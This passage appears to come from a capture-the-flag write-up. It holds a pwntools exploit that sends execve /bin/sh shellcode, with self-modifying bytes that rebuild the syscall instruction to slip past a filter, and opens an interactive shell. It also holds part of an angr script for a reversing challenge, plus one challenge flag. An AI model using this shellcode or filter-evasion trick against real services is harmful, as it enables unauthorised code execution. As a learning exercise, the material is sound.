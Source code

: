 ```python
# Basically is the same idea of the previous challenge, with a modification of the check bypass
# Actually we don't care about the address of the buffer, because what we insert will be executed as it is.
# The first idea was to use the initial value in rax (the start of the shellcode) to bypass the randomization, but it wasn't necessary.

# First part of the shellcode, classic execve shellcode 
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99"

# Second part of the shellcode, substitute \x0f\x05 with the registers operations written here
# mov rbx, 0x040e
# add rbx, 0x0101
# mov [rip], rbx

shellcode = shellcode + b"\x48\xC7\xC3\x0E\x04\x00\x00\x48\x81\xC3\x01\x01\x00\x00\x48\x89\x1D\x00\x00\x00\x00" 

# Send payload
payload = shellcode.ljust(1000, b"\x90")

r.send(shellcode)
r.interactive()
```

**flag{nice_job!_self_modifying_shellcode?getting_address_wiht_call?}**

## cracksymb
![c](https://img.shields.io/badge/symbolic-blue) ![p](https://img.shields.io/badge/Points-204-success)
```python
import angr
import claripy

# From Ghidra we can see that the max length is 0x17 so 23 in decimal
# also, in the check_flag function we can see that checks input[0x16]
# it's reasonable to think that the last char is at 0x16 or 0x17, so 
# we can try with both of them
# Actually the real length seems to be 23, because the output of angr 
# has a random symbol after the '}', but hey I got the flag.
FLAG_LENGTH = 24

# Attach the script to the executable
p = angr.Project("./cracksymb") 

# Just create the symbolic var representing the input
# create 24 BVS of size 8 bit = 1 byte = 1 char
# so those are all symbolic bitvectors that represent all the pwd characters
# and concat all
pwd_chars = [claripy.BVS(f"pwd_chars{i}", 8) for i in range(FLAG_LENGTH)]	

# now just concat the endline char to actually send the input
pwd = claripy.Concat( *pwd_chars + [claripy.BVV(b"\n")])

# Create a state
state = p.factory.full_init_state(
        args = ['./cracksymb'],
        add_options = {angr.options.LAZY_SOLVES}, # Hint
        stdin = pwd,
)

# Make sure that these characters are printable, start from ! to ~
for k in pwd_chars:
    state.solver.add(k >= ord('!'))
```